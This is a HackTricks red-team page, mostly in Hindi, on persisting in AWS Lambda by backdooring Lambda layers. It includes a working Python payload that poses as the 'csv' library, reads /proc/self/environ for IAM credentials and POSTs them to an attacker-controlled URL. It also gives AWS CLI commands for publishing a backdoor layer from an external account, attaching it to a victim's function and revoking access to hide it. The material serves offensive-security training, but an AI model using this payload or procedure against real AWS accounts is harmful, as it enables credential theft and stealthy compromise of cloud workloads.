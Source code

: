 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

एक Lambda लेयर एक .zip फ़ाइल संग्रह है जो **अतिरिक्त कोड** या अन्य सामग्री **शामिल कर सकता है**। एक लेयर में पुस्तकालय, एक [कस्टम रनटाइम](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), डेटा, या कॉन्फ़िगरेशन फ़ाइलें हो सकती हैं।

आप **प्रत्येक फ़ंक्शन के लिए पांच लेयर** तक शामिल कर सकते हैं। जब आप किसी फ़ंक्शन में एक लेयर शामिल करते हैं, तो **सामग्री को `/opt`** निर्देशिका में निष्पादन वातावरण में निकाला जाता है।

**डिफ़ॉल्ट रूप से**, आप जो **लेयर** बनाते हैं, वे आपके AWS खाते के लिए **निजी** होती हैं। आप एक लेयर को अन्य खातों के साथ **साझा** करने या लेयर को **सार्वजनिक** बनाने का विकल्प चुन सकते हैं। यदि आपके फ़ंक्शन किसी अन्य खाते द्वारा प्रकाशित की गई लेयर का उपयोग करते हैं, तो आपके फ़ंक्शन **लेयर संस्करण का उपयोग जारी रख सकते हैं, भले ही इसे हटा दिया गया हो, या आपके लेयर तक पहुँचने की अनुमति को रद्द कर दिया गया हो**। हालाँकि, आप एक नई फ़ंक्शन नहीं बना सकते या हटाई गई लेयर संस्करण का उपयोग करके फ़ंक्शंस को अपडेट नहीं कर सकते।

कंटेनर इमेज के रूप में तैनात फ़ंक्शन लेयर का उपयोग नहीं करते हैं। इसके बजाय, आप इमेज बनाने के समय अपने पसंदीदा रनटाइम, पुस्तकालयों और अन्य निर्भरताओं को कंटेनर इमेज में पैक करते हैं।

### Python load path

Python द्वारा lambda में उपयोग किया जाने वाला लोड पथ निम्नलिखित है:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

{% hint style="danger" %}
यदि एक हमलावर ने एक उपयोग की गई lambda **layer** में **बैकडोर** डालने में सफलता प्राप्त की या एक ऐसा **layer** जो **एक सामान्य पुस्तकालय लोड होने पर मनमाना कोड निष्पादित करेगा** जोड़ दिया, तो वह प्रत्येक lambda कॉल के साथ दुर्भावनापूर्ण कोड निष्पादित करने में सक्षम होगा।
{% endhint %}

इसलिए, आवश्यकताएँ हैं:

* **जांचें पुस्तकालय** जो **पीड़ित के कोड** द्वारा **लोड** किए गए हैं
* एक **प्रॉक्सी पुस्तकालय बनाएं जो lambda layers** के साथ **कस्टम कोड निष्पादित करेगा** और **मूल** पुस्तकालय को **लोड** करेगा।

### प्रीलोडेड पुस्तकालय

{% hint style="warning" %}
इस तकनीक का दुरुपयोग करते समय मुझे एक कठिनाई का सामना करना पड़ा: कुछ पुस्तकालय **पहले से ही लोड** होते हैं जब आपका कोड निष्पादित होता है। मैं `os` या `sys` जैसी चीजें खोजने की उम्मीद कर रहा था, लेकिन **यहां तक कि `json` पुस्तकालय भी लोड हो चुका था**।\
इस स्थायी तकनीक का दुरुपयोग करने के लिए, कोड को **एक नया पुस्तकालय लोड करना होगा जो लोड नहीं होता** जब कोड निष्पादित होता है।
{% endhint %}

इस तरह के एक पायथन कोड के साथ यह संभव है कि **पुस्तकालयों की सूची प्राप्त की जाए जो प्रीलोडेड** हैं पायथन रनटाइम के अंदर lambda में:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
और यह **सूची** है (जांचें कि `os` या `json` जैसी पुस्तकालय पहले से मौजूद हैं)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
और यह **लाइब्रेरीज़** की सूची है जो **लैम्ब्डा डिफ़ॉल्ट रूप से शामिल करता है**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### लैम्ब्डा लेयर बैकडोरिंग

इस उदाहरण में मान लीजिए कि लक्षित कोड **`csv`** आयात कर रहा है। हम **`csv` लाइब्रेरी के आयात में बैकडोरिंग** करने जा रहे हैं।

इसके लिए, हम **`/opt/python/lib/python3.9/site-packages`** में **`csv`** नाम का डायरेक्टरी बनाएंगे जिसमें फ़ाइल **`__init__.py`** होगी।\
फिर, जब लैम्ब्डा निष्पादित होगा और **csv** को लोड करने की कोशिश करेगा, तो हमारी **`__init__.py` फ़ाइल लोड और निष्पादित होगी**।\
इस फ़ाइल को करना चाहिए:

* हमारे पेलोड को निष्पादित करें
* मूल csv लाइब्रेरी को लोड करें

हम दोनों कर सकते हैं:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
फिर, इस कोड के साथ एक ज़िप बनाएं जो **`python/lib/python3.9/site-packages/__init__.py`** पथ में हो और इसे एक लैम्ब्डा लेयर के रूप में जोड़ें।

आप इस कोड को [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) पर पा सकते हैं।

एकीकृत पेलोड **IAM क्रेडेंशियल्स को एक सर्वर पर भेजेगा जब इसे पहली बार बुलाया जाएगा या लैम्ब्डा कंटेनर के रीसेट के बाद** (कोड में परिवर्तन या ठंडी लैम्ब्डा), लेकिन **अन्य तकनीकें** जैसे निम्नलिखित भी एकीकृत की जा सकती हैं:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### बाहरी लेयर्स

ध्यान दें कि **बाहरी खातों से लैम्ब्डा लेयर्स का उपयोग करना संभव है**। इसके अलावा, एक लैम्ब्डा एक बाहरी खाते से एक लेयर का उपयोग कर सकता है भले ही उसके पास अनुमतियाँ न हों।\
यह भी ध्यान दें कि **एक लैम्ब्डा के पास अधिकतम 5 लेयर्स हो सकती हैं**।

इसलिए, इस तकनीक की बहुपरकारीता को बढ़ाने के लिए एक हमलावर कर सकता है:

* उपयोगकर्ता की एक मौजूदा लेयर में बैकडोर डालें (कुछ भी बाहरी नहीं है)
* **अपने खाते में** एक **लेयर** **बनाएं**, **पीड़ित खाते को लेयर का उपयोग करने के लिए अनुमति दें**, **पीड़ितों की लैम्ब्डा में लेयर को कॉन्फ़िगर करें** और **अनुमति हटा दें**।
* **लैम्ब्डा** अभी भी **लेयर का उपयोग करने में सक्षम होगा** और **पीड़ित** के पास **लेयर्स कोड डाउनलोड करने का कोई आसान तरीका नहीं होगा** (लैम्ब्डा के अंदर एक रिव शेल प्राप्त करने के अलावा)
* पीड़ित **`aws lambda list-layers`** के साथ उपयोग की गई बाहरी लेयर्स नहीं देखेगा।

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
